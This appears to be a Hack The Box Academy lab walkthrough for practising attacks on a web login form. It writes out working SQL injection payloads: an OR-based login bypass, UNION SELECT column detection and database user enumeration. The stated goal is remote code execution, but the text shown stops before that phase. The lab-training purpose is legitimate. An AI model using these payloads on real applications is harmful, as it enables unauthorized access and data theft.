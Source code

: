 
## HTB Academy Skills Assessment: Complete Attack Chain

### Scenario: Web Application with Login Form → Remote Code Execution → Flag Capture

**Target:** Web application with login form and search functionality  
**Goal:** Gain RCE and find flag in / root directory

#### Phase 1: Authentication Bypass

**Step 1: Identify Login Form**
```
Navigate to target website → Find login form
Attempt normal login → No credentials available
```

**Step 2: SQL Injection Authentication Bypass**
```sql
-- Test basic OR injection in username field
admin' OR '1' = '1' -- -

-- Result: Successfully bypassed authentication → "Employee Dashboard"
-- Analysis: OR condition makes query always true
```

#### Phase 2: SQL Injection Discovery & Exploitation

**Step 3: Find Injectable Parameter**
```sql
-- Test search field with single quote
search_term: '

-- Result: SQL error "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version"
-- Analysis: ✅ SQL injection confirmed in search parameter
```

**Step 4: Column Detection**
```sql
-- Test UNION with different column counts
' UNION SELECT 1 -- -                    # Error: different number of columns
' UNION SELECT 1,2 -- -                  # Error: different number of columns  
' UNION SELECT 1,2,3 -- -                # Error: different number of columns
' UNION SELECT 1,2,3,4 -- -              # Error: different number of columns
' UNION SELECT 1,2,3,4,5 -- -            # ✅ Success!

-- Result: 5 columns detected, column 1 hidden (not displayed)
-- Displayed columns: 2, 3, 4, 5
```

#### Phase 3: Privilege Enumeration

**Step 5: Identify Database User**
```sql
-- Check current user
' UNION SELECT 1,user(),3,4,5 -- -

-- Result: "root@localhost" 
-- Analysis: ✅ Root user = High privileges (DBA)
```
